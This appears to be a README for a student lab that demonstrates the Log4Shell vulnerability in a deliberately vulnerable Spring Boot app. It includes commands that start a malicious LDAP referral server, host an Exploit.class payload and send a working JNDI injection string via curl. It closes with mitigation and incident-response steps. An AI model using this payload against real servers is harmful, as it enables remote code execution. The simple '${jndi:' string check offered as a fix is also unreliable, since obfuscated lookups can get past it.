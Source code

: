 
This project demonstrates the **Log4Shell (CVE-2021-44228)** vulnerability in a Spring Boot application using **Log4j 2.14.1**, 
and walks through a full exploit lifecycle with **MITRE ATT&CK/REACT** response phases and mitigation.

---
Project Structure:

HW9_Log4Shell/

├── log4shell-homework/        # Vulnerable Spring Boot app with Log4j 2.14.1

├── marshalsec/                # LDAPRefServer for JNDI exploit delivery

└── Exploit.java               # Malicious class payload (compiled and hosted)

---

Setup Instructions (AWS Linux 2)
1. Clone the Repo
 ```shell
git clone https://github.com/zilantix/HW9_Log4Shell.git
cd HW9_Log4Shell
 ```
2. Run Setup Script *(Optional)*
 ```shell
chmod +x setup_log4shell_lab.py
./setup_log4shell_lab.py
 ```

3. Manually Start LDAP Exploit Infrastructure
 ```shell
cd marshalsec
java -cp target/marshalsec-*-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<EC2-IP>:8000/#Exploit"
 ```
# In another terminal:
 ```shell
cd ~/exploit
python3 -m http.server 8000
 ```

---
Exploit Testing
 ```shell
curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log
 ```
Confirm `GET /Exploit.class` in your HTTP server logs.
---

Mitigation

- Patched input via validation in `LogController.java`:
 ```shell
java
if (input.contains("${jndi:")) {
    return "Invalid input detected";
}
 ```
- upgrade/change pom.xml on to Log4j 2.17.0 for full vendor patch

---
Incident Response (MITRE REACT)

| Phase     | Action                                        |
|-----------|-----------------------------------------------|
| Detect    | `docker logs` → saw `${jndi:` in input        |
| Contain   | `docker-compose down`                         |
| Eradicate | Confirmed no running containers               |
| Recover   | Redeployed patched version                    |
| Report    | Validated with sanitized test input           |



References

- [Apache Log4j Security Page](https://logging.apache.org/log4j/2.x/security.html)
- [MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)
- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Marshalsec LDAPRefServer](https://github.com/mbechler/marshalsec) Java Unmarshaller Security - Turning your data into code execution

---

📘 For educational use only. Not intended for real-world exploitation.
